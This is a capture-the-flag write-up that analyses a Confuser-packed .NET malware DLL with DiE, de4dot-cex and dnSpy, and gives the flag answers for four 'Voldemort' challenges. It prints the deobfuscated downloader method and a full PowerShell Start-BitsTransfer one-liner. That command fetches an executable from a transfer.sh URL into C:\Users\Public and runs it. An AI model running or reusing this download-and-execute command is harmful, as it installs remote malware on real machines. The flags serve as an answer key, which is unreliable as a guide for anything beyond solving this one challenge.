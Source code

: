 ## Voldemort 1
To get more information about the DLL file, we open it using DiE.
![](attachments/Pasted%20image%2020230228133111.png)

It's .NET library file packed using Confuser 1.X.
With a quick google search, we can find that it is possible to unpacking using [de4dot-cex](https://github.com/ViRb3/de4dot-cex).
![](attachments/Pasted%20image%2020230228133623.png)

Now we open it using dnSpy.
![](attachments/Pasted%20image%2020230228133748.png)
The method AutoOpen contains the main payload of our malware.

Let's look at this call now
```cs
ne1sy2._bSIbzp9F5FHLOO01xTea86EU5ZK("yqgi.exe", "https://transfer.sh/get/671Cix/123.exe");
```
This is most likely the next stage of the payload.

`Flag: IDEH{yqgi.exe}`

## Voldemort 2

Here is the definition of the method
![](attachments/Pasted%20image%2020230228134727.png)
After deobfuscation:
```cs
private static bool _bSIbzp9F5FHLOO01xTea86EU5ZK(string string_0, string string_1){
     string text = "C:\Users\Public" + string_0;
     ne1sy2.ShellExecute((IntPtr)0, "open", "powershell.exe", string.Concat(new string[]{
     "Start-BitsTransfer -Source ", string_1," -Destination ", text, " ;", text }), "", 0);
     return true;
}
```

`Flag: IDEH{Start-BitsTransfer_-Source_-Destination}`

## Voldemort 3
`Flag: IDEH{https://transfer.sh/get/671Cix/123.exe}`

## Voldemort 4
This is the final command to download and execute the malicious file.
```powershell
powershell.exe Start-BitsTransfer -Source https://transfer.sh/get/671Cix/123.exe -Destination C:\Users\Public\yqgi.exe ;C:\Users\Public\yqgi.exe
```

Flag: `IDEH{powershell.exe_Start-BitsTransfer_-Source_https://transfer.sh/get/671Cix/123.exe_-Destination_C:\Users\Public\yqgi.exe_C:\Users\Public\yqgi.exe}`